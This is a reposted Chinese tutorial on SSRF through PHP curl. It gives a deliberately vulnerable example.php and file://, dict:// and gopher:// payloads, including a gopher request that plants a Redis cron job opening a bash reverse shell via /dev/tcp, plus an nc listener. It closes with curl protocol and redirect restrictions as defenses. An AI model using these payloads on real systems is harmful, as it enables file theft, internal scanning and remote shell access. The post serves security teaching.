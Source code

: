 ```yaml
---
title: "php curl ssrf攻击"
date: 2017-04-12 22:44:01 +0800
modified: 2017-07-24 16:47:48 +0800
img: /assets/images/201704/12-01.png

categories: 转载验证
tags: [php, curl, 网络安全, 转载]
---
```


## 什么是 SSRF  [^1]
>SSRF(Server-Side Request Forgery:服务器端请求伪造) 是一种由攻击者构造形成由服务端发起请求的一个安全漏洞。
>一般情况下，SSRF攻击的目标是从外网无法访问的内部系统。

### 三个使用`curl`进行`ssrf`的示例 [^2]

```bash
# 利用file协议查看文件
curl -v 'file:///etc/passwd'

# 利用dict探测端口
curl -v 'dict://127.0.0.1:22'
curl -v 'dict://127.0.0.1:6379/info'

# 利用gopher协议反弹shell
curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$56%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'
```

漏洞代码 **example.php**（ 未做任何SSRF防御 ）
```php
function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    curl_exec($ch);
    curl_close($ch);
}

$url = $_GET['url'];
curl($url);
```

### **file**

执行 `http://localhost/example.php?url=file:///etc/passwd`, 结果如下,打印文件内容

![passwd info](/assets/images/201704/12-01.png)

### **dict**

执行 `http://localhost/example.php?url=dict://127.0.0.1:22`, 结果如下, 现实端口信息

![dict info](/assets/images/201704/12-02.png)

### **gopher**

>Gopher是一个互联网上使用的分布型的文件搜集获取网络协议。 [^3]

`redis反弹shell`代码如下:
>gopher%3A%2F%2F127.0.0.1%3A6379%2F_%2A3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2456%250d%250a%250d%250a%250a%250a%2A%2F1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F127.0.0.1%2F2333%200%3E%261%250a%250a%250a%250d%250a%250d%250a%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2A1%250d%250a%244%250d%250asave%250d%250a%2A1%250d%250a%244%250d%250aquit%250d%250a

转译后的 **攻击脚本**
```
gopher://127.0.0.1:6379/_*3
$3
set
$1
1
$56



*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1





*4
$6
config
$3
set
$3
dir
$16
/var/spool/cron/
*4
$6
config
$3
set
$10
dbfilename
$4
root
*1
$4
save
*1
$4
quit
```
执行后, 在redis中查看
```bash
127.0.0.1:6379> key *
(error) ERR unknown command 'key'
127.0.0.1:6379> keys *
1) "msg"
2) "numbers"
3) "1"
127.0.0.1:6379> get 1
"\r\n\n\n*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1\n"
127.0.0.1:6379>
```
使用 `nc` 监听查看 2333端口反馈信息 [^4]
```bash
$ nc -lvv 2333                                                            1 ↵
Listening on [0.0.0.0] (family 0, port 2333)
```

使用说明:
>gopher协议使用方法：gopher://ip:port/_payload

**gopher转换规则** 如下：

- 如果`第一个字符`是 **>** 或者 **<** 那么丢弃该行字符串，表示请求和返回的时间。
- 如果`前3个字符`是+OK 那么`丢弃`该行字符串，表示返回的字符串。
- 将`\r`字符串替换成`%0d%0a`
- 空白行替换为%0a


## curl安全

1. 限制只支持HTTPS、HTTP协议

    在 `curl_setopt`中添加 `curl_setopt($ch, CURLOPT_PROTOCOLS, CURLPROTO_HTTP | CURLPROTO_HTTPS);`

    则 **file**,**dict**,**gopher** 等其他协议将被过滤, 可以阻止一些ssrf.

1. 禁止30x跳转 (默认关闭)

    在 `curl_setopt`中添加 `curl_setopt($ch, CURLOPT_FOLLOWLOCATION, False);`


>原文: [JoyChou - SSRF in PHP](http://joychou.org/index.php/web/phpssrf.html)

---
## 参考文档
- [SSRF](https://hxer.github.io/WebSecurity/ssrf.html)
- [ssrf proxy](https://bcoles.github.io/ssrf_proxy/)
- [Server Side Request Forgery (SSRF)](http://niiconsulting.com/checkmate/2015/04/server-side-request-forgery-ssrf/)
- [What is the Server Side Request Forgery Vulnerability & How to Prevent It?](https://www.netsparker.com/blog/web-security/server-side-request-forgery-vulnerability-ssrf/)
- [利用 gopher 协议拓展攻击面](https://ricterz.me/posts/%E5%88%A9%E7%94%A8%20gopher%20%E5%8D%8F%E8%AE%AE%E6%8B%93%E5%B1%95%E6%94%BB%E5%87%BB%E9%9D%A2)
- [SSRF漏洞的利用与学习](http://uknowsec.cn/posts/notes/SSRF%E6%BC%8F%E6%B4%9E%E7%9A%84%E5%88%A9%E7%94%A8%E4%B8%8E%E5%AD%A6%E4%B9%A0.html)
- [JoyChou - SSRF in PHP](http://joychou.org/index.php/web/phpssrf.html)
- [Gopher (protocol)](https://en.wikipedia.org/wiki/Gopher_(protocol))
- [利用 gopher 协议拓展攻击面](https://ricterz.me/posts/%E5%88%A9%E7%94%A8%20gopher%20%E5%8D%8F%E8%AE%AE%E6%8B%93%E5%B1%95%E6%94%BB%E5%87%BB%E9%9D%A2)



[^1]: https://hxer.github.io/WebSecurity/ssrf.html
[^2]: http://joychou.org/index.php/web/phpssrf.html
[^3]: https://en.wikipedia.org/wiki/Gopher_(protocol)
[^4]: https://ricterz.me/posts/%E5%88%A9%E7%94%A8%20gopher%20%E5%8D%8F%E8%AE%AE%E6%8B%93%E5%B1%95%E6%94%BB%E5%87%BB%E9%9D%A2
